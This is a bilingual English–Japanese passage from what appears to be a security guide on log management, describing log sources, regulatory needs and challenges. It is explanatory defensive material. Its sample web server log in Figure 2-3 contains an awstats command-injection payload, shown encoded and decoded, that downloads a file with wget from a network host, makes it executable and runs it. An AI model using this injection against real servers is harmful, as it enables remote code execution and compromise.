状況によっては、組織内で作成される多くのログがコンピュータセキュリティに何らかの関連を持つ可能性がある（could）。たとえば、スイッチや無線アクセスポイントなどのネットワーク機器、およびネットワーク監視ソフトウェアなどのプログラムのログには、コンピュータセキュリティや運用・監査などの他の情報技術（IT）の取り組み、さらには規制への準拠を実証するうえで役立つ可能性のある（could）データが記録されることがある（might）。ただし、コンピュータセキュリティでは、こうしたログは一般に必要に応じて補足的な情報源として使用される。本文書は、コンピュータセキュリティ上重要と組織が判断することの多い種類のログに焦点を当てる。組織は、ログ管理インフラストラクチャを設計・実装する際、コンピュータセキュリティログデータの候補となる各ソースの価値を検討すべきである（should）。
Most of the sources of the log entries run continuously, so they generate entries on an ongoing basis. However, some sources run periodically, so they generate entries in batches, often at regular intervals.
ログエントリのソースのほとんどは継続的に稼働するため、継続してエントリを生成する。一方、定期的に稼働するソースもあり、その場合は多くの場合、一定間隔でバッチ単位のエントリを生成する。
This section notes any log sources that work in batch mode because this can have a significant impact on the usefulness of their logs for incident response and other time-sensitive efforts.
本節では、バッチモードで動作するログソースについても取り上げる。これは、インシデント対応やその他の時間的制約のある取り組みにおけるログの有用性に大きく影響する可能性がある（can）。
2.1.1 Security Software
2.1.1 セキュリティソフトウェア
Most organizations use several types of network-based and host-based security software to detect malicious activity, protect systems and data, and support incident response efforts. Accordingly, security software is a major source of computer security log data. Common types of network-based and host-based security software include the following:
ほとんどの組織は、悪意ある活動を検知し、システムとデータを保護し、インシデント対応を支援するために、複数種類のネットワークベースおよびホストベースのセキュリティソフトウェアを使用する。したがって、セキュリティソフトウェアはコンピュータセキュリティログデータの主要なソースである。ネットワークベースおよびホストベースのセキュリティソフトウェアには、次のような一般的な種類がある。
•Antimalware Software. The most common form of antimalware software is antivirus software, which typically records all instances of detected malware, file and system disinfection attempts, and file quarantines.3 Additionally, antivirus software might also record when malware scans were performed and when antivirus signature or software updates occurred. Antispyware software and other types of antimalware software (e.g., rootkit detectors) are also common sources of security information.
•マルウェア対策ソフトウェア。最も一般的なマルウェア対策ソフトウェアはウイルス対策ソフトウェアであり、通常、検出したすべてのマルウェア、ファイルやシステムの駆除の試み、ファイルの隔離を記録する。3 また、ウイルス対策ソフトウェアは、マルウェアスキャンの実施時や、ウイルス対策シグネチャまたはソフトウェアの更新時も記録することがある（might）。スパイウェア対策ソフトウェアやその他の種類のマルウェア対策ソフトウェア（ルートキット検出器など）も、セキュリティ情報の一般的なソースである。
•Intrusion Detection and Intrusion Prevention Systems. Intrusion detection and intrusion prevention systems record detailed information on suspicious behavior and detected attacks, as well as any actions intrusion prevention systems performed to stop malicious activity in progress. Some intrusion detection systems, such as file integrity checking software, run periodically instead of continuously, so they generate log entries in batches instead of on an ongoing basis.4
•侵入検知システムおよび侵入防止システム。侵入検知システムおよび侵入防止システムは、不審な挙動と検知された攻撃に関する詳細情報に加え、進行中の悪意ある活動を阻止するために侵入防止システムが実行した措置も記録する。ファイル完全性検査ソフトウェアなど、一部の侵入検知システムは継続的ではなく定期的に動作するため、継続的にではなくバッチ単位でログエントリを生成する。4
•Remote Access Software. Remote access is often granted and secured through virtual private networking (VPN). VPN systems typically log successful and failed login attempts, as well as the dates and times each user connected and disconnected, and the amount of data sent and received in each user session. VPN systems that support granular access control, such as many Secure Sockets Layer (SSL) VPNs, may log detailed information about the use of resources.
•リモートアクセスソフトウェア。リモートアクセスは多くの場合、仮想プライベートネットワーク（VPN）を通じて許可・保護される。VPNシステムは通常、ログインの成功・失敗、各ユーザーの接続・切断の日時、各ユーザーセッションで送受信されたデータ量を記録する。多くのSecure Sockets Layer（SSL）VPNなど、きめ細かなアクセス制御に対応するVPNシステムは、リソースの使用に関する詳細情報を記録する場合がある。
•Web Proxies. Web proxies are intermediate hosts through which Web sites are accessed. Web proxies make Web page requests on behalf of users, and they cache copies of retrieved Web pages to make additional accesses to those pages more efficient. Web proxies can also be used to restrict Web access and to add a layer of protection between Web clients and Web servers. Web proxies often keep a record of all URLs accessed through them.
•Webプロキシ。Webプロキシは、Webサイトへのアクセスに使用される中継ホストである。Webプロキシはユーザーに代わってWebページを要求し、取得したWebページのコピーをキャッシュして、同じページへの再アクセスを効率化する。Webプロキシは、Webアクセスの制限や、WebクライアントとWebサーバー間への保護層の追加にも使用できる。Webプロキシは多くの場合、経由してアクセスされたすべてのURLを記録する。
•Vulnerability Management Software. Vulnerability management software, which includes patch management software and vulnerability assessment software, typically logs the patch installation history and vulnerability status of each host, which includes known vulnerabilities and missing software updates.5 Vulnerability management software may also record additional information about hosts’ configurations. Vulnerability management software typically runs occasionally, not continuously, and is likely to generate large batches of log entries.
•脆弱性管理ソフトウェア。パッチ管理ソフトウェアおよび脆弱性評価ソフトウェアを含む脆弱性管理ソフトウェアは、通常、各ホストのパッチインストール履歴と脆弱性の状態（既知の脆弱性および不足しているソフトウェア更新を含む）を記録する。5 また、ホスト構成に関する追加情報を記録する場合もある（may）。脆弱性管理ソフトウェアは通常、継続的ではなく時折実行され、大量のログエントリをまとめて生成する可能性が高い。
•Authentication Servers. Authentication servers, including directory servers and single sign-on servers, typically log each authentication attempt, including its origin, username, success or failure, and date and time.
•認証サーバー。ディレクトリサーバーやシングルサインオンサーバーなどの認証サーバーは通常、認証の試行ごとに、その発生元、ユーザー名、成功・失敗、日時を記録する。
•Routers. Routers may be configured to permit or block certain types of network traffic based on a policy. Routers that block traffic are usually configured to log only the most basic characteristics of blocked activity.
•ルーター。ルーターは、ポリシーに基づき特定の種類のネットワークトラフィックを許可または遮断するよう構成できる。トラフィックを遮断するルーターは通常、遮断した活動の最も基本的な特性のみを記録するよう構成される。
•Firewalls. Like routers, firewalls permit or block activity based on a policy; however, firewalls use much more sophisticated methods to examine network traffic.6 Firewalls can also track the state of network traffic and perform content inspection. Firewalls tend to have more complex policies and generate more detailed logs of activity than routers.
•ファイアウォール。ルーターと同様に、ファイアウォールはポリシーに基づいて活動を許可または遮断する。ただし、ファイアウォールはネットワークトラフィックを調べるためにはるかに高度な方法を用いる。6 ファイアウォールはネットワークトラフィックの状態を追跡し、コンテンツ検査を実行することもできる（can）。ファイアウォールはルーターより複雑なポリシーを持つ傾向があり、活動に関するより詳細なログを生成する。
•Network Quarantine Servers. Some organizations check each remote host’s security posture before allowing it to join the network. This is often done through a network quarantine server and agents placed on each host. Hosts that do not respond to the server’s checks or that fail the checks are quarantined on a separate virtual local area network (VLAN) segment. Network quarantine servers log information about the status of checks, including which hosts were quarantined and for what reasons.
•ネットワーク隔離サーバー。一部の組織は、リモートホストがネットワークへの参加を許可される前に、そのセキュリティ状態を確認する。これは多くの場合、ネットワーク隔離サーバーと各ホストに配置されたエージェントを通じて行われる。サーバーの確認に応答しないホスト、または確認に失敗したホストは、別の仮想ローカルエリアネットワーク（VLAN）セグメントに隔離される。ネットワーク隔離サーバーは、隔離されたホストとその理由を含め、確認の状態に関する情報を記録する。
Figure 2-1 contains several examples of security software log entries.7
図2-1に、セキュリティソフトウェアのログエントリ例をいくつか示す。7
Intrusion Detection System [**] [1:1407:9] SNMP trap udp [**] [Classification: Attempted Information Leak] [Priority: 2] 03/06-8:14:09.082119 192.168.1.167:1052 -> 172.30.128.27:162 UDP TTL:118 TOS:0x0 ID:29101 IpLen:20 DgmLen:87
Intrusion Detection System [**] [1:1407:9] SNMP trap udp [**] [Classification: Attempted Information Leak] [Priority: 2] 03/06-8:14:09.082119 192.168.1.167:1052 -> 172.30.128.27:162 UDP TTL:118 TOS:0x0 ID:29101 IpLen:20 DgmLen:87
Personal Firewall 3/6/2006 8:14:07 AM,"Rule ""Block Windows File Sharing"" blocked (192.168.1.54, netbios-ssn(139)).","Rule ""Block Windows File Sharing"" blocked (192.168.1.54, netbios-ssn(139)). Inbound TCP connection. Local address,service is (KENT(172.30.128.27),netbios-ssn(139)). Remote address,service is (192.168.1.54,39922). Process name is ""System""." 3/3/2006 9:04:04 AM,Firewall configuration updated: 398 rules.,Firewall configuration updated: 398 rules.
Personal Firewall 3/6/2006 8:14:07 AM,"Rule ""Block Windows File Sharing"" blocked (192.168.1.54, netbios-ssn(139)).","Rule ""Block Windows File Sharing"" blocked (192.168.1.54, netbios-ssn(139)). Inbound TCP connection. Local address,service is (KENT(172.30.128.27),netbios-ssn(139)). Remote address,service is (192.168.1.54,39922). Process name is ""System""." 3/3/2006 9:04:04 AM,Firewall configuration updated: 398 rules.,Firewall configuration updated: 398 rules.
Antivirus Software, Log 1 3/4/2006 9:33:50 AM,Definition File Download,KENT,userk,Definition downloader 3/4/2006 9:33:09 AM,AntiVirus Startup,KENT,userk,System 3/3/2006 3:56:46 PM,AntiVirus Shutdown,KENT,userk,System
Antivirus Software, Log 1 3/4/2006 9:33:50 AM,Definition File Download,KENT,userk,Definition downloader 3/4/2006 9:33:09 AM,AntiVirus Startup,KENT,userk,System 3/3/2006 3:56:46 PM,AntiVirus Shutdown,KENT,userk,System
Antivirus Software, Log 2 240203071234,16,3,7,KENT,userk,,,,,,,16777216,"Virus definitions are current.",0,,0,,,,,0,,,,,,,,,,SAVPROD,{ xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx },End User,(IP)-192.168.1.121,,GROUP,0:0:0:0:0:0,9.0.0.338,,,,,,,,,,,,,,,
Antivirus Software, Log 2 240203071234,16,3,7,KENT,userk,,,,,,,16777216,"Virus definitions are current.",0,,0,,,,,0,,,,,,,,,,SAVPROD,{ xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx },End User,(IP)-192.168.1.121,,GROUP,0:0:0:0:0:0,9.0.0.338,,,,,,,,,,,,,,,
Antispyware Software DSO Exploit: Data source object exploit (Registry change, nothing done) HKEY_USERS\S-1-5-19\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\0\1004!=W=3
Antispyware Software DSO Exploit: Data source object exploit (Registry change, nothing done) HKEY_USERS\S-1-5-19\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\0\1004!=W=3
Figure 2-1. Security Software Log Entry Examples
図2-1. セキュリティソフトウェアのログエントリ例
2.1.2 Operating Systems
2.1.2 オペレーティングシステム
Operating systems (OS) for servers, workstations, and networking devices (e.g., routers, switches) usually log a variety of information related to security. The most common types of security-related OS data are as follows:
サーバー、ワークステーション、ネットワーク機器（ルーター、スイッチなど）のオペレーティングシステム（OS）は通常、セキュリティ関連のさまざまな情報を記録する。最も一般的なセキュリティ関連OSデータは次のとおりである。
•System Events. System events are operational actions performed by OS components, such as shutting down the system or starting a service. Typically, failed events and the most significant successful events are logged, but many OSs permit administrators to specify which types of events will be logged. The details logged for each event also vary widely; each event is usually timestamped, and other supporting information could include event, status, and error codes; service name; and user or system account associated with an event.
•システムイベント。システムイベントとは、システムのシャットダウンやサービスの起動など、OSコンポーネントが実行する運用上の動作である。通常、失敗したイベントと、成功したイベントのうち特に重要なものが記録されるが、多くのOSでは、記録するイベントの種類を管理者が指定できる。各イベントに記録される詳細も大きく異なる。通常、各イベントにはタイムスタンプが付与され、イベントコード、状態コード、エラーコード、サービス名、イベントに関連するユーザーまたはシステムアカウントなどの補足情報が含まれる場合がある。
•Audit Records. Audit records contain security event information such as successful and failed authentication attempts, file accesses, security policy changes, account changes (e.g., account creation and deletion, account privilege assignment), and use of privileges. OSs typically permit system administrators to specify which types of events should be audited and whether successful and/or failed attempts to perform certain actions should be logged.
•監査記録。監査記録には、認証の成功・失敗、ファイルアクセス、セキュリティポリシーの変更、アカウントの変更（アカウントの作成・削除、アカウント権限の割り当てなど）、権限の使用といったセキュリティイベント情報が含まれる。OSでは通常、監査するイベントの種類、および特定の操作の実行を試みた際の成功・失敗のどちらをログに記録するかを、システム管理者が指定できる。
OS logs might also contain information from security software and other applications running on the system. Section 2.1.3 provides more information on application log data.
OSログには、セキュリティソフトウェアやシステム上で実行される他のアプリケーションからの情報も含まれる場合がある（might）。アプリケーションログデータの詳細については2.1.3節を参照。
OS logs are most beneficial for identifying or investigating suspicious activity involving a particular host. After suspicious activity is identified by security software, OS logs are often consulted to get more information on the activity. For example, a network security device might detect an attack against a particular host; that host’s OS logs might indicate if a user was logged into the host at the time of the attack and if the attack was successful. Many OS logs are created in syslog format; Section 3.3 discusses syslog in detail and provides examples of syslog log entries. Other OS logs, such as those on Windows systems, are stored in proprietary formats. Figure 2-2 gives an example of log data exported from a Windows security log.
OSログは、特定のホストに関係する不審な活動を識別または調査するうえで最も有用である。セキュリティソフトウェアによって不審な活動が識別された後、その活動の詳細情報を得るためにOSログが参照されることが多い。たとえば、ネットワークセキュリティ機器が特定ホストへの攻撃を検知した場合、そのホストのOSログから、攻撃時にユーザーがログインしていたか、攻撃が成功したかが分かる場合がある（might）。多くのOSログはsyslog形式で作成される。第3.3節ではsyslogを詳しく説明し、syslogログエントリの例を示す。Windowsシステムのログなど、他のOSログは独自形式で保存される。図2-2に、Windowsセキュリティログからエクスポートしたログデータの例を示す。
Event Type: Success Audit Event Source:Security Event Category: (1) Event ID: 517 Date: 3/6/2006 Time: 2:56:40 PM User: NT AUTHORITY\SYSTEM Computer: KENT Description: The audit log was cleared Primary User Name: SYSTEM Primary Domain: NT AUTHORITY Primary Logon ID: (0x0,0x3F7) Client User Name: userk Client Domain: KENT Client Logon ID: (0x0,0x28BFD)
Event Type: Success Audit Event Source:Security Event Category: (1) Event ID: 517 Date: 3/6/2006 Time: 2:56:40 PM User: NT AUTHORITY\SYSTEM Computer: KENT Description: The audit log was cleared Primary User Name: SYSTEM Primary Domain: NT AUTHORITY Primary Logon ID: (0x0,0x3F7) Client User Name: userk Client Domain: KENT Client Logon ID: (0x0,0x28BFD)
Figure 2-2. Operating System Log Entry Example
図2-2. オペレーティングシステムのログエントリ例
2.1.3 Applications
2.1.3 アプリケーション
Operating systems and security software provide the foundation and protection for applications, which are used to store, access, and manipulate the data used for the organization’s business processes. Most organizations rely on a variety of commercial off-the-shelf (COTS) applications, such as e-mail servers and clients, Web servers and browsers, file servers and file sharing clients, and database servers and clients. Many organizations also use various COTS or government off-the-shelf (GOTS) business applications such as supply chain management, financial management, procurement systems, enterprise resource planning, and customer relationship management. In addition to COTS and GOTS software, most organizations also use custom-developed applications tailored to their specific requirements.8
オペレーティングシステムとセキュリティソフトウェアは、アプリケーションの基盤となり、アプリケーションを保護する。アプリケーションは、組織の業務プロセスで用いるデータの保存、アクセス、操作に使われる。ほとんどの組織は、電子メールのサーバとクライアント、Webサーバとブラウザ、ファイルサーバとファイル共有クライアント、データベースのサーバとクライアントなど、多様な商用既製品（COTS）アプリケーションに依存している。また多くの組織は、サプライチェーン管理、財務管理、調達システム、統合基幹業務（ERP）、顧客関係管理などの業務アプリケーションとして、さまざまなCOTSまたは政府既製品（GOTS）を利用している。COTSおよびGOTSソフトウェアに加えて、ほとんどの組織は、自組織固有の要件に合わせて独自に開発したアプリケーションも利用している。8
Some applications generate their own log files, while others use the logging capabilities of the OS on which they are installed. Applications vary significantly in the types of information that they log. The following lists some of the most commonly logged types of information and the potential benefits of each:9
一部のアプリケーションは独自のログファイルを生成し、他のアプリケーションはインストール先OSのロギング機能を使用する。アプリケーションによって記録する情報の種類は大きく異なる。以下に、最も一般的に記録される情報の種類と、それぞれから得られる可能性のある利点を示す。9
•Client requests and server responses, which can be very helpful in reconstructing sequences of events and determining their apparent outcome. If the application logs successful user authentications, it is usually possible to determine which user made each request. Some applications can perform highly detailed logging, such as e-mail servers recording the sender, recipients, subject name, and attachment names for each e-mail; Web servers recording each URL requested and the type of response provided by the server; and business applications recording which financial records were accessed by each user. This information can be used to identify or investigate incidents and to monitor application usage for compliance and auditing purposes.
•クライアント要求とサーバー応答。これは、イベントの順序を再構成し、見かけ上の結果を判断するうえで非常に役立つ。アプリケーションがユーザー認証の成功を記録していれば、通常、各要求を行ったユーザーを特定できる。アプリケーションによっては非常に詳細なロギングが可能である。たとえば、電子メールサーバーは各メールの送信者、受信者、件名、添付ファイル名を記録し、Webサーバーは要求された各URLとサーバーが返した応答の種類を記録し、業務アプリケーションは各ユーザーがアクセスした財務記録を記録できる。この情報は、インシデントの識別・調査や、コンプライアンスおよび監査目的でのアプリケーション利用状況の監視に使用できる。
•Account information such as successful and failed authentication attempts, account changes (e.g., account creation and deletion, account privilege assignment), and use of privileges. In addition to identifying security events such as brute force password guessing and escalation of privileges, it can be used to identify who has used the application and when each person has used it.
•アカウント情報。認証の成功・失敗、アカウントの変更（アカウントの作成・削除、アカウント権限の割り当てなど）、権限の使用などが含まれる。ブルートフォースによるパスワード推測や権限昇格などのセキュリティイベントの識別に加え、誰がいつアプリケーションを使用したかの特定にも使用できる。
•Usage information such as the number of transactions occurring in a certain period (e.g., minute, hour) and the size of transactions (e.g., e-mail message size, file transfer size). This can be useful for certain types of security monitoring (e.g., a ten-fold increase in e-mail activity might indicate a new e-mail–borne malware threat; an unusually large outbound e-mail message might indicate inappropriate release of information).
•使用状況情報。一定期間（分、時間など）に発生したトランザクション数や、トランザクションのサイズ（電子メールメッセージのサイズ、ファイル転送サイズなど）が含まれる。これは、特定の種類のセキュリティ監視に有用である。たとえば、電子メール活動が10倍に増加した場合、新たな電子メール媒介マルウェアの脅威を示している可能性があり、通常より大きな送信メールは情報の不適切な公開を示している可能性がある。
•Significant operational actions such as application startup and shutdown, application failures, and major application configuration changes. This can be used to identify security compromises and operational failures.
•アプリケーションの起動・停止、アプリケーション障害、主要なアプリケーション構成変更などの重要な運用操作。これは、セキュリティ侵害や運用障害の識別に使用できる。
Much of this information, particularly for applications that are not used through unencrypted network communications, can only be logged by the applications, which makes application logs particularly valuable for application-related security incidents, auditing, and compliance efforts. However, these logs are often in proprietary formats that make them more difficult to use, and the data they contain is often highly context-dependent, necessitating more resources to review their contents.
特に暗号化されていないネットワーク通信を介して使用されないアプリケーションでは、これらの情報の多くを記録できる（can）のはアプリケーションだけである。そのため、アプリケーションログは、アプリケーション関連のセキュリティインシデント、監査、コンプライアンス対応において特に価値が高い。ただし、こうしたログは独自形式であることが多く、利用が難しい。また、含まれるデータは状況に強く依存することが多いため、内容の確認により多くのリソースを要する。
Figure 2-3 contains a sample log entry from a Web server log, along with an explanation of the information recorded in the entry.
図2-3に、Webサーバーログのログエントリ例と、エントリに記録された情報の説明を示す。
172.30.128.27 - - [14/Oct/2005:05:41:18 -0500] "GET /awstats/awstats.pl?config dir=|echo;echo%20YYY;cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx%20nikons%3b%2e%2fnikons;echo%20YYY;echo| HTTP/1.1" 302 494
172.30.128.27 - - [14/Oct/2005:05:41:18 -0500] "GET /awstats/awstats.pl?config dir=|echo;echo%20YYY;cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx%20nikons%3b%2e%2fnikons;echo%20YYY;echo| HTTP/1.1" 302 494
172.30.128.27 IP address of the host that initiated the request
172.30.128.27 要求を発したホストのIPアドレス
- Indicates that the information was not available (this server is not configured to put any information in the second field)
- 情報が得られなかったことを示す（このサーバは2番目のフィールドに情報を記録するよう設定されていない）
- User ID supplied for HTTP authentication; in this case, no authentication was performed
- HTTP認証で提示されたユーザID。この例では認証は行われていない
[14/Oct/2005:05:41:18 -0500] Date and time that the Web server completed handling the request
[14/Oct/2005:05:41:18 -0500] Webサーバが要求の処理を完了した日時
GET HTTP method
GET HTTPメソッド
/awstats/awstats.pl URL in the request
/awstats/awstats.pl 要求内のURL
config dir=|echo;echo%20YYY;cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx%20nikons%3b%2e%2fnikons;echo%20YYY;echo| Argument for the request. Each % followed by two hexadecimal characters is a hex encoding of an ASCII character. For example, hex 20 is equivalent to decimal 32, and ASCII character 32 is a space; therefore, %20 is equivalent to a space. The ASCII equivalent of the log entry above is shown below.10
config dir=|echo;echo%20YYY;cd%20%2ftmp%3bwget%20192%2e168%2e1%2e214%2fnikons%3bchmod%20%2bx%20nikons%3b%2e%2fnikons;echo%20YYY;echo| 要求の引数である。% とそれに続く2桁の16進文字は、ASCII文字1字を16進で符号化したものである。たとえば、16進数の20は10進数の32に等しく、ASCII文字の32番は空白である。したがって、%20 は空白に等しい。上のログエントリをASCIIに直したものを次に示す。10
config dir=|echo;echo YYY;cd /tmp;wget 192.168.1.214/nikons;chmod +x nikons;/.nikons; echo YYY;echo|
config dir=|echo;echo YYY;cd /tmp;wget 192.168.1.214/nikons;chmod +x nikons;/.nikons; echo YYY;echo|
HTTP/1.1 Protocol and protocol version used to make the request
HTTP/1.1 要求に用いられたプロトコルとそのバージョン
302 Status code for the response; in the HTTP protocol standards, code 302 corresponds to “found”
302 応答のステータスコード。HTTPプロトコルの標準では、コード302は「found」に当たる
494 Size of the response in bytes
494 応答のサイズ（バイト）
Figure 2-3. Web Server Log Entry Examples
図2-3. Webサーバーログエントリの例
2.1.4 Usefulness of Logs
2.1.4 ログの有用性
The categories of logs described in Sections 2.1.1 through 2.1.3 typically contain different types of information. Accordingly, some logs are generally more likely than others to record information that would be helpful for different situations, such as detecting attacks, fraud, and inappropriate usage. For each type of situation, certain logs are typically the most likely to contain detailed information on the activity in question. Other logs typically contain less detailed information, and are often only helpful for correlating events recorded in the primary log types. For example, an intrusion detection system could record malicious commands issued to a server from an external host; this would be a primary source of attack information. An incident handler could then review a firewall log to look for other connection attempts from the same source IP address; this would be a secondary source of attack information.
2.1.1節から2.1.3節で説明したログの分類には、通常、異なる種類の情報が含まれる。そのため、攻撃、不正行為、不適切な使用など、状況によっては、他のログより有用な情報を記録する可能性が高いログもある（would）。各状況について、問題となる活動の詳細情報を含む可能性が最も高いログが通常いくつかある。他のログは通常、詳細度が低く、主なログ種別に記録されたイベントを相関付ける場合にのみ役立つことが多い。たとえば、侵入検知システムは、外部ホストからサーバーに発行された悪意あるコマンドを記録することがある（could）。これは攻撃情報の主な情報源となる（would）。その後、インシデント対応担当者はファイアウォールログを調べ、同一の送信元IPアドレスから他の接続試行がないか確認できる（could）。これは攻撃情報の二次的な情報源となる（would）。
未レビュー訳Administrators using logs should also be mindful of the trustworthiness of each log source. Log sources that are not properly secured, including insecure transport mechanisms, are more susceptible to log configuration changes and log alteration. Of course, administrators should be particularly cautious about the accuracy of logs from hosts that have been attacked successfully; it is usually prudent to examine other logs as well.
ログを使用する管理者は、各ログソースの信頼性にも注意すべきである（should）。安全でない転送メカニズムを含め、適切に保護されていないログソースは、ログ構成の変更やログ改ざんの影響を受けやすい。当然ながら、攻撃が成功したホストからのログの正確性には特に注意すべきである（should）。他のログも調べるのが通常は賢明である。
2.2 The Need for Log Management
2.2 ログ管理の必要性
Log management can benefit an organization in many ways. It helps to ensure that computer security records are stored in sufficient detail for an appropriate period of time. Routine log reviews and analysis are beneficial for identifying security incidents, policy violations, fraudulent activity, and operational problems shortly after they have occurred, and for providing information useful for resolving such problems. Logs can also be useful for performing auditing and forensic analysis, supporting the organization’s internal investigations, establishing baselines, and identifying operational trends and long-term problems.
ログ管理は、さまざまな面で組織に利益をもたらす（can）。コンピュータセキュリティ記録を適切な期間、十分な詳細度で保存できるよう支援する。定期的なログの確認と分析は、セキュリティインシデント、ポリシー違反、不正行為、運用上の問題が発生した直後にそれらを特定し、問題の解決に役立つ情報を提供するうえで有益である。ログは、監査やフォレンジック分析、組織内の調査の支援、ベースラインの確立、運用傾向や長期的な問題の特定にも有用である（can）。
Besides the inherent benefits of log management, a number of laws and regulations further compel organizations to store and review certain logs. The following is a listing of key regulations, standards, and guidelines that help define organizations’ needs for log management:
ログ管理自体の利点に加え、複数の法律や規制によっても、特定のログを保存・確認することが組織に求められる。以下に、組織のログ管理ニーズを定義するうえで役立つ主要な規制、標準、ガイドラインを示す。
•Federal Information Security Management Act of 2002 (FISMA). FISMA emphasizes the need for each Federal agency to develop, document, and implement an organization-wide program to provide information security for the information systems that support its operations and assets. NIST SP 800-53, Recommended Security Controls for Federal Information Systems, was developed in support of FISMA.11 NIST SP 800-53 is the primary source of recommended security controls for Federal agencies. It describes several controls related to log management, including the generation, review, protection, and retention of audit records, as well as the actions to be taken because of audit failure.
•2002年連邦情報セキュリティ管理法（FISMA）。FISMAは、各連邦政府機関が、業務および資産を支える情報システムの情報セキュリティを確保するため、組織全体を対象とするプログラムを策定、文書化、実施する必要性を強調している。NIST SP 800-53『連邦情報システムのための推奨セキュリティ管理策』はFISMAを支援するために策定された。11 NIST SP 800-53は、連邦政府機関向けの推奨セキュリティ管理策の主要な情報源である。ログ管理に関連する複数の管理策を説明しており、監査記録の生成、確認、保護、保持のほか、監査失敗時に取るべき措置も含む。
•Gramm-Leach-Bliley Act (GLBA).12 GLBA requires financial institutions to protect their customers’ information against security threats. Log management can be helpful in identifying possible security violations and resolving them effectively.
•グラム・リーチ・ブライリー法（GLBA）。12 GLBAは、金融機関に対し、顧客情報をセキュリティ脅威から保護するよう求める。ログ管理は、セキュリティ違反の可能性を特定し、効果的に解決するうえで役立つ（can）。
•Health Insurance Portability and Accountability Act of 1996 (HIPAA). HIPAA includes security standards for certain health information. NIST SP 800-66, An Introductory Resource Guide for Implementing the Health Insurance Portability and Accountability Act (HIPAA) Security Rule, lists HIPAA-related log management needs.13 For example, Section 4.1 of NIST SP 800-66 describes the need to perform regular reviews of audit logs and access reports. Also,
•1996年医療保険の携行性と責任に関する法律（HIPAA）。HIPAAには、特定の医療情報に関するセキュリティ基準が含まれる。NIST SP 800-66『医療保険の携行性と責任に関する法律（HIPAA）セキュリティ規則の実装に関する導入リソースガイド』には、HIPAA関連のログ管理ニーズが記載されている。13 たとえば、NIST SP 800-66第4.1節では、監査ログおよびアクセスレポートを定期的に確認する必要性が説明されている。また、
Section 4.22 specifies that documentation of actions and activities need to be retained for at least six years.
第4.22節では、措置および活動の文書を少なくとも6年間保持する必要があると規定している。
•Sarbanes-Oxley Act (SOX) of 2002.14 Although SOX applies primarily to financial and accounting practices, it also encompasses the information technology (IT) functions that support these practices. SOX can be supported by reviewing logs regularly to look for signs of security violations, including exploitation, as well as retaining logs and records of log reviews for future review by auditors.
•2002年サーベンス・オクスリー法（SOX）。14 SOXは主に財務および会計実務に適用されるが、これらの実務を支援する情報技術（IT）機能も対象に含む。ログを定期的に確認して、悪用を含むセキュリティ違反の兆候を探し、ログとログ確認記録を監査人が後日確認できるよう保持することで、SOXへの対応を支援できる（can）。
•Payment Card Industry Data Security Standard (PCI DSS). PCI DSS applies to organizations that “store, process or transmit cardholder data” for credit cards. One of the requirements of PCI DSS is to “track…all access to network resources and cardholder data”.15
•ペイメントカード業界データセキュリティ基準（PCI DSS）。PCI DSSは、クレジットカードの「カード会員データを保存、処理、または送信」する組織に適用される。PCI DSSの要件の一つは、「ネットワークリソースおよびカード会員データへのすべてのアクセスを追跡する」ことである。15
2.3 The Challenges in Log Management
2.3 ログ管理における課題
Most organizations face similar log management-related challenges, which have the same underlying problem: effectively balancing a limited amount of log management resources with an ever-increasing supply of log data. This section discusses the most common types of challenges, divided into three groups. First, there are several potential problems with the initial generation of logs because of their variety and prevalence. Second, the confidentiality, integrity, and availability of generated logs could be breached inadvertently or intentionally. Finally, the people responsible for performing log analysis are often inadequately prepared and supported. Sections 2.3.1 through 2.3.3 discuss each of these three categories of log challenges.
ほとんどの組織は、同じ根本的な問題、すなわち限られたログ管理リソースと増え続けるログデータとの効果的な均衡を取るという、類似したログ管理上の課題に直面している。本節では、最も一般的な課題を3つのグループに分けて説明する。第一に、ログの多様性と広範な存在のため、ログを最初に生成する段階で複数の問題が起こり得る（could）。第二に、生成されたログの機密性、完全性、可用性が、偶発的または意図的に侵害される可能性がある。最後に、ログ分析を担う人々は、準備や支援が不十分なことが多い。2.3.1節から2.3.3節で、これら3種類のログ管理上の課題をそれぞれ説明する。
2.3.1 Log Generation and Storage
2.3.1 ログの生成と保存
In a typical organization, many hosts’ OSs, security software, and other applications generate and store logs. This complicates log management in the following ways:
一般的な組織では、多数のホストのOS、セキュリティソフトウェア、その他のアプリケーションがログを生成・保存する。これにより、ログ管理は次のような点で複雑になる。
•Many Log Sources. Logs are located on many hosts throughout the organization, necessitating log management to be performed throughout the organization. Also, a single log source can generate multiple logs—for example, an application storing authentication attempts in one log and network activity in another log.
•多数のログソース。ログは組織内の多数のホストに分散しているため、ログ管理を組織全体で実施する必要がある。また、単一のログソースが複数のログを生成する場合もある。たとえば、あるアプリケーションは認証試行を1つのログに、ネットワーク活動を別のログに保存する。
•Inconsistent Log Content. Each log source records certain pieces of information in its log entries, such as host IP addresses and usernames. For efficiency, log sources often record only the pieces of information that they consider most important. This can make it difficult to link events recorded by different log sources because they may not have any common values recorded (e.g., source 1 records the source IP address but not the username, and source 2 records the username but not the source IP address). Each type of log source may also represent values differently; these differences may be slight, such as one date being in MMDDYYYY format and another being in MM-DD-YYYY format, or they may be much more complex, such as use of the File Transfer Protocol (FTP) being identified by name in one log (“FTP”) and by port number in another log (21). This further complicates the process of linking events recorded by different log sources.16
•ログ内容の不一致。各ログソースは、ホストのIPアドレスやユーザー名など、特定の情報をログエントリに記録する。効率化のため、ログソースは最も重要と判断した情報のみを記録することが多い。このため、異なるログソースが記録したイベントを結び付けるのが難しくなる場合がある（can）。ログソース間に共通して記録される値がないことがあるためである（may）。たとえば、ソース1は送信元IPアドレスを記録するがユーザー名は記録せず、ソース2はユーザー名を記録するが送信元IPアドレスは記録しない。各種類のログソースが値を異なる方法で表すこともある（may）。その違いは、一方の日付がMMDDYYYY形式、別の日付がMM-DD-YYYY形式であるといった小さなものの場合もあれば（may）、一方のログではファイル転送プロトコル（FTP）の使用を名称（「FTP」）で識別し、別のログではポート番号（21）で識別するといった、はるかに複雑なものの場合もある（may）。このことも、異なるログソースが記録したイベントを結び付けるプロセスをさらに複雑にする。16
